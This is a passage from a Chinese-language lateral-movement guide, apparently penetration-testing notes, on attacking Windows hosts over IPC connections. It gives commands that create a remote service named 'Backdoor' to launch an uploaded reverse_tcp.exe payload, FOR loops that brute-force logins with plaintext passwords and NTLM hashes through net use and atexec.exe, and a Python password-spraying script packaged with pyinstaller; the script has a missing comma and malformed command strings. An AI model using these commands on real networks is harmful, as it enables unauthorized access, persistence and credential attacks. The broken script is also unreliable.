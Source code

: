 ### [sc（系统服务）](#toc_sc)

创建远程服务需要拥有**两端主机的管理员权限（要创建服务）**和 IPC 连接，具体操作：

1.  利用已建立的共享连接向远程主机上传攻击载荷 reverse\_tcp.exe
2.  利用已建立的 IPC 连接在远程主机上创建系统服务 shell

```plain
sc \\192.168.1.131 create Backdoor binpath= "cmd.exe /k c:\users\public\reverse_tcp.exe"
# binpath 的等号后面需要有一个空格
```

-   删除服务 shell

```plain
sc \\192.168.1.131 delete Backdoor
```

### [批量利用脚本、工具进行爆破连接](#toc__2)

```plain
#批量检测 IP 对应明文连接
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator

#批量检测 IP 对应明文 回显版
FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami

#批量检测明文对应 IP 回显版
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.1.131 whoami

# 批量检测 HASH 对应 IP 回显版
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.1.131 whoami
```

前期除了收集明文密码 HASH 等，还收集了用户名，用户名配合密码字典，用 python 打包成.exe 可执行文件

```plain
pip install pyinstaller
pyinstaller -F fuck_neiwang_001.py
import os,time
ips = {

}
# net user /domain
users = {
    'Administrator',
    '7BOB',
    'uf9n1x'
    'webserver-2008'

}
passs = {

}

for ip in ips:
    for user in users:
        for mima in passs:
            exec = "net use \\" + ip + '\ipc$' + mima + ' /user:god\\' + user
            print('--->' + exec + '<---')
            os.system(exec)
            time.sleep(1)
```
